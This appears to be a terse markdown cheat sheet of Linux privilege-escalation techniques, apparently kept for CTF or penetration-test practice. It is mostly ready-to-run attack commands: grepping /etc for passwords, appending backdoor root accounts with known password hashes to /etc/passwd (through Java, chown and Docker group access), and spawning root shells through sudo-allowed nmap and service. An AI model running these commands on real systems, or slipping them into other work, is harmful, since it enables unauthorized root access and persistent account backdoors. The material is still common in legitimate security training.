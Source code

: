 ## Enum
### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Linux Root tricks
Tricks to play after running `sudo -l`
https://gtfobins.github.io/

### Java
```
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd",true);
fw.write("hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash");
fw.close();
```

### Change passwd file
```
hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash
su hack
Password: pass123
```

### Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

### nmap
```
sudo nmap --interactive
!sh
```

### service
```
sudo /sbin/service ../../../bin/bash
```

## Some common exploit

### Docker
How to spot
```
lse check user in docker group
```
Exploit
```
docker images
cd /
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
su toor
password
```

### Check sudo
```
sudo -l
```

### no-root-squash nfs
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

